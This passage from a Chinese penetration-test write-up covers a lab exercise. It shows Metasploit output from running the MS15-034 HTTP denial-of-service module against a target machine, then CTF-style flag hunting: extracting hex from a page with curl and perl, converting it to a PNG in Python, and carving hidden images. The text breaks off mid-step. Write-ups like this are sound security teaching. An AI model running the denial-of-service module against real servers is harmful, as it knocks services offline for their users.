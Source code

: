 ```shell
   TARGETURI  /                no        URI to the site (e.g /site/) or a valid file resource (e.g /welcome.p
                                         ng)
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > run

[*] DOS request sent
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(dos/http/ms15_034_ulonglongadd) > run
```

结果靶机没有蓝屏，而是立即重启了，也蛮有趣的

# 三、后渗透阶段（flag挖掘）

很像是在打CTF，做得蛮开心的~

## 1. the_joker

1. 发现80端口是打开的，用浏览器打开，不难从html页面发现隐藏的HEX代码，通过`curl http://10.0.2.4/ > data.html
   cat data.html | perl -ne 'print $1 if(/value\=\"(\w+)\"\>/g)' > data.hex` 获得hex.txt见附件
   
2. 不难猜想可由hex转图片，于是写出hex2png.py，获得flag。

3. 代码如下：

   ```python
   import binascii
   
   with open('hex.txt') as f, open('data.png', 'wb')as fout:
       for line in f:
           fout.write(binascii.unhexlify(line))
   
   ```

   

![joker](C:\Users\Morgan\Desktop\渗透测试报告\渗透测试报告.assets\joker.png)

## 2. Ace_of_Hearts

1. 打开目录不难找到一张普通的红桃A，文件异常之大，不难发现端倪，可能是多文件隐藏。
2. 查看二进制格式，把第一个jpg文件删去，即得到flag

![ace_of_hearts](C:\Users\Morgan\Desktop\渗透测试报告\渗透测试报告.assets\ace_of_hearts.png)

## 3.  Jack_of_Hearts

1. 不难在document目录下发现Jack_of_Hearts.docx，考虑单文件docx中的PNG隐藏文件
